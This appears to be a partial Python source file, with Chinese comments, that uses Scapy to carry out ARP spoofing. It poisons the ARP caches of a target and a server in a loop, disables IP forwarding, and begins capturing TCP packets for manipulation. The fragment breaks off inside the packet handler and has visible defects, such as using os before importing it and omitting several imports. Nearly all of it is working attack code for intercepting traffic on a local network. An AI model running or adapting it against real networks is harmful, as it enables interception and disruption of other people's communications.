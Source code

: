 ```py

# 验证 root 权限
if os.geteuid() != 0:
    print("需要 root 权限运行！")
    sys.exit(1)

import os

def disable_ip_forward_sysctl():
    ret = os.system("sysctl -w net.ipv4.ip_forward=0")
    if ret == 0:
        print("IP forwarding disabled via sysctl.")
    else:
        print("Failed to disable IP forwarding via sysctl.")

disable_ip_forward_sysctl()


# 获取 MAC 地址并验证
def get_mac(ip):
    try:
        mac = getmacbyip(ip)
        if not mac:
            raise ValueError(f"无法获取 IP {ip} 的 MAC 地址")
        return mac
    except Exception as e:
        print(f"获取 MAC 地址失败 ({ip}): {e}")
        sys.exit(1)

try:
    my_mac = get_if_hwaddr(iface)
    target_mac = get_mac(target_ip)
    server_mac = get_mac(server_ip)
    print(f"我的 MAC: {my_mac}, 目标 MAC: {target_mac}, 服务器 MAC: {server_mac}")
except Exception as e:
    print(f"初始化失败: {e}")
    sys.exit(1)

# 持续发送 ARP 欺骗包
def send_arp_spoof():
    while True:
        try:
            sendp(Ether(dst=target_mac, src=my_mac) /
                  ARP(op=2, psrc=server_ip, hwsrc=my_mac, pdst=target_ip),
                  iface=iface, verbose=0)
            sendp(Ether(dst=server_mac, src=my_mac) /
                  ARP(op=2, psrc=target_ip, hwsrc=my_mac, pdst=server_ip),
                  iface=iface, verbose=0)
            time.sleep(5)
        except Exception as e:
            print(f"ARP 欺骗错误: {e}")
            time.sleep(5)

# 数据包处理回调函数
def handle_packet(pack):
    try:
        if (not pack.haslayer(IP) or not pack.haslayer(TCP)) or(pack[Ether].src==my_mac):
            return  # 忽略非 IP/TCP 包

        # 调试：打印原始包信息
        print(f"捕获包: {pack.summary()}")
        pack[TCP].show()
        # 创建新数据包副本以避免修改原始包
```